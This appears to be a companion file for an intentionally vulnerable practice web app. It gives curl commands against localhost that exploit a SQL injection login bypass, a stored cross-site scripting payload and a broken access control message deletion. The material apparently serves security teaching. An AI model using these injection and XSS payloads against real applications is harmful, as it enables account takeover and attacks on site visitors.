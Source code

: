A collection of curl commands you can use to exploit the vulnerabilities in the application.

## Injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-Site Scripting (XSS)

```bash
# Execute a script when the guestbook page is loaded
# Make sure to log in and replace "<token>" with your own token first
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```

## Broken Access Control

```bash
# Delete any message without admin privileges
# Make sure to log in and replace "<token>" with your own token first
# Also replace <messageId> with the id of the message you want to delete
curl -X DELETE "http://localhost:8080/api/messages/<messageId>" \
  -H "Authorization: Bearer <token>" \
  -v && echo ""
```
